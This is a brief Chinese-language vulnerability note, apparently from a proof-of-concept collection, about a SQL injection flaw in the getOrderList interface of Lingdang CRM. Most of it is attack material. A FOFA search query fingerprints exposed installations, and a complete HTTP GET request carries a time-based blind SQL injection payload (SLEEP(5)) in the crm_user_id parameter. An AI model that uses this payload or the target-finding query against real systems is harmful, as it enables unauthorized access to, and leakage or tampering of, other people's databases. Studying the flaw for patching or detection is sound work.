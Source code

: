 # 灵当CRM系统接口getOrderList存在SQL注入漏洞

灵当CRM系统接口getOrderList存在SQL注入漏洞，允许攻击者通过恶意构造的SQL语句操控数据库，从而导致数据泄露、篡改或破坏，严重威胁系统安全。

## fofa

```javascript
body="crmcommon/js/jquery/jquery-1.10.1.min.js" || (body="http://localhost:8088/crm/index.php" && body="ldcrm.base.js")
```

## poc

```javascript
GET /crm/WeiXinApp/marketing/index.php?module=WxOrder&action=getOrderList&crm_user_id=1%20AND%20(SELECT%209552%20FROM%20(SELECT(SLEEP(5)))x) HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
```

![image-20240919111854302](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202409191119991.png)